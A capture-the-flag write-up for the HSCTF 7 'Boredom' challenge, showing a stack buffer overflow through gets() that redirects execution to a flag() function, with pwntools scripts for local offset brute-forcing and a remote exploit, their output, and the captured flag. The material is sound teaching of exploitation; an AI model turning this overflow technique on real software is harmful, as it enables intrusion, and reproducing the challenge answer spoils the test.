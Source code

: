 ```yaml
---
layout: single
title: HSCTF 7 - Binary Exploitation - Boredom
toc: true
tags: ctf
---
```


_Boredom_ is the the first ctf of binary exploitation. It provides a source file **boredom.c** and a binary file **boredom**.

## Analysis
First, I analyse the source code to find some exploitable code. Indeed, the main call the unsafe function `gets`:

```cpp
int main() {
	char toDo[200];
	setup();

	printf("Give me something to do: ");
	gets(toDo);
	puts("Ehhhhh, maybe later.");
	return 0;
}
```

`gets` saves the input in the char array `toDo` and it can overwrite the return instruction pointer in the stack if the user writes more than 200 characters. The other function in **boredom.c** tells us where the flag is located:

```cpp
void flag() {
	FILE *f = fopen("flag.txt", "r");
	char buf[50];
	if (f == NULL) {
		puts("You're running this locally or I can't access the flag file for some reason.");
		puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
		exit(1);
	}
	fgets(buf, 50, f);
	printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n", buf);
	puts("Now go away.");
	exit(42);
}
```

We just need to find the address of function <code class="cpp hljs inline">flag</code> and overwrite it in the return instruction pointer in the stack. However, even though this is the main concept behind the buffer overflow exploit, there are a lot of details to make it real.

## Architecture characteristics

Before writing any exploit we have to understand in which architecture the **boredom** binary is running. The `readelf -h boredom` command answers to all our questions:

```
ELF Header:
Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
Class:                             ELF64
Data:                              2's complement, little endian
Version:                           1 (current)
OS/ABI:                            UNIX - System V
ABI Version:                       0
Type:                              EXEC (Executable file)
Machine:                           Advanced Micro Devices X86-64
```

Boom! It is 64bit architecture and little-endian (least significant byte are stored in the smallest address, e.g. higher in the stack).

Now we use our swiss army knife, aka pwntools, to get some other interesting features of this binary:

```python
#!/usr/bin/python3
from pwn import &#42;
e = ELF('./boredom')
print(e)
```


the output is:

```cpp
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

- _amd-64-little_ tells what we already know;
- _Full RELRO_: the Global Offset Table (GOT) is read-only, that is we can't change the function addresses.
- _No canary found_: the stack doesn't protect the return pointer if we try to overwrite it. This is the vulnerability we are exploiting.
- _NO PIE_: NO Position-Independent Executable, so the code can't run in any address but in those addresses specified by the binary file. In a _PIE_ file there are offsets instead of addresses.

## Exploit

Knowing all these characteristics of the the binary, we remain to guess the offset between the buffer ```toDo``` and the return instruction pointer in the stack. So when the program asks for the input we'll write 200 chars + offset + address of ```flag()```.

```python
#!/usr/bin/python3
from pwn import &#42;
e = ELF('./boredom')
flag_addr = p64(e.symbols['flag'])

for i in range(201,220):
	print('i: ' + str(i))
	p = process('./boredom')
	payload = bytes("a"*i,'utf-8') + flag_addr
	p.sendlineafter(': ', payload)
	res = p.recvall(timeout=1)
	if "flag" in res.decode():
		print(res.decode())
		break;
```

where `flag_addr = \xd5\x11\x40\x00\x00\x00\x00\x00` is 8 byte long.

When the binary returns _You're running this locally or I can't access the flag file for some reason._ we have found the right offset.

**In my case** the offset is 16 bytes:

```cpp
...
i: 215
[+] Starting local process './boredom': pid 203
[+] Receiving all data: Done (21B)
[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 203)
i: 216
[+] Starting local process './boredom': pid 206
[+] Receiving all data: Done (162B)
[*] Process './boredom' stopped with exit code 1 (pid 206)
Ehhhhh, maybe later.
You're running this locally or I can't access the flag file for some reason.
If this occurs on the remote, ping @PMP#5728 on discord server.

i: 217
[+] Starting local process './boredom': pid 209
[+] Receiving all data: Done (21B)
[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 209)
...
```

We exploited the buffer overflow locally now it's time to make it working remotely:

```python
#!/usr/bin/python3
from pwn import *

p = remote('pwn.hsctf.com', 5002)

flag_addr = 0x00000000004011d5
print( bytes('a'*(208),'utf-8')+p64(flag_addr))
p.sendlineafter(': ', bytes('a'*(208),'utf-8')+p64(flag_addr))

p.interactive()
```

Unfortunately, the offset that we use to pwn the binary online is different from that we used locally. The offset is just 8 bytes instead of 16 bytes.

Eventually, the flag is:

```
flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}
```

## Resources

- [ctftime event page](https://ctftime.org/event/939/)
- [Relocation Read-Only (RELRO)](https://ctf101.org/binary-exploitation/relocation-read-only/)

